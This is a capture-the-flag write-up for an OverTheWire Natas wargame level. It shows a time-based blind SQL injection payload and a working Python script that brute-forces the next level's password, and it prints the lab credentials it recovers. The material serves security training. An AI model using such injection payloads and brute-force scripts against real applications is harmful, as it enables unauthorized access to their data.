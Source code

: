 
> Checking the source code:

![](./screenshots/17-1.png)

> We see that the results of the query are not printed, meaning this is a blind SQL injection.
> Therefore, we can use blind techniques using time delays.

> Using this payload to carry out the blind attack using delays:
```
natas18"+AND+password+like+binary+"a%"+AND+SLEEP(5)+#+#
```

> The response comes back after 5 seconds if the password starts with the letter `a`. Test using burp repeater.
> We can write a python script to brute force all the characters, and if a time delay is found, append another character after the first one found.

```python
import requests
import re
from string import *

auth_username = "natas17"
auth_password = "XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"
url = "http://natas17.natas.labs.overthewire.org/"

session = requests.Session()

characters = digits + ascii_letters
password = ""

while len(password) < 32:
    for char in characters:
        print("Trying: " + password + char + "...")
        response = session.post(url, data={"username": "natas18\" and password like binary \"" + password + char + "%\" and sleep(2) # #"}, auth=(auth_username, auth_password))
        if response.elapsed.seconds >= 2:
            password += char
            break
```

> After a while, we get this password:

```
natas18:8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq
```

---
